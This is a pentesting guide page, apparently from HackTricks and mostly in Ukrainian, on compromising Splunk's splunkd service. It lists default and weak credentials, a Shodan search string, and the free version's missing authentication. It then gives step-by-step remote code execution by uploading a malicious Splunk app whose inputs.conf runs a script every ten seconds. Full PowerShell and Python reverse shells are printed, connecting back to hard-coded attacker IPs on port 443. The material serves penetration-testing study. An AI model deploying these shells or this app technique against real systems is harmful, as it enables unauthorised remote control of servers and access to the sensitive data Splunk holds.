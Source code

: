 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Основна інформація**

* Інструмент аналітики журналів, що використовується для збору, аналізу та візуалізації даних
* Зазвичай використовується в моніторингу безпеки та бізнес-аналітиці
* Порт за замовчуванням:
* Веб-сервер: 8000
* Служба Splunkd: 8089

### Вектори вразливості:

1. Експлуатація безкоштовної версії

* Пробна версія автоматично перетворюється на безкоштовну версію після 60 днів
* Безкоштовна версія не має аутентифікації
* Потенційний ризик безпеки, якщо не управляти
* Адміністратори можуть не помітити наслідки для безпеки

2. Слабкі місця облікових даних

* Старі версії: стандартні облікові дані `admin:changeme`
* Нові версії: облікові дані встановлюються під час інсталяції
* Потенційна можливість використання слабких паролів (наприклад, `admin`, `Welcome`, `Password123`)

3. Можливості віддаленого виконання коду

* Кілька методів виконання коду:
* Серверні додатки Django
* REST-інтерфейси
* Скриптові введення
* Скрипти сповіщень
* Підтримка крос-платформ (Windows/Linux)
* Скриптові введення можуть виконувати:
* Bash-скрипти
* PowerShell-скрипти
* Пакетні скрипти

Ключовий потенціал експлуатації:

* Зберігання чутливих даних
* Відсутність аутентифікації в безкоштовній версії
* Кілька векторів для потенційного віддаленого виконання коду
* Можливість використання скриптових введень для компрометації системи

### Shodan

* `Splunk build`

## RCE

### Створення користувацького додатку

Splunk пропонує складний метод для віддаленого виконання коду через розгортання користувацького додатку, використовуючи свої можливості крос-платформного скриптування. Основна техніка експлуатації полягає в створенні шкідливого додатку, який може виконувати реверсні оболонки на системах Windows і Linux.

Користувацький додаток може виконувати **Python, Batch, Bash або PowerShell скрипти**. Більше того, **Splunk постачається з встановленим Python**, тому навіть на **Windows** системах ви зможете виконувати код python.

Ви можете використовувати [**цей**](https://github.com/0xjpuff/reverse_shell_splunk) приклад з **`bin`**, що містить приклад для [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) та [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Або ви можете створити свій власний.

Процес експлуатації слідує послідовній методології на всіх платформах:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Критичний конфігураційний файл `inputs.conf` активує скрипт шляхом:

* Встановлення `disabled = 0`
* Налаштування інтервалу виконання в 10 секунд
* Визначення типу джерела скрипта

Розгортання є простим:

1. Створіть шкідливий пакет програми
2. Налаштуйте прослуховувач (Netcat/socat) на атакуючій машині
3. Завантажте програму через інтерфейс Splunk
4. Запустіть автоматичне виконання скрипта після завантаження

Приклад зворотного шелу Windows PowerShell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Приклад зворотного шеллу Python для Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

На наступній сторінці ви можете знайти пояснення, як цей сервіс може бути зловжито для ескалації привілеїв та отримання стійкості:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## References

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

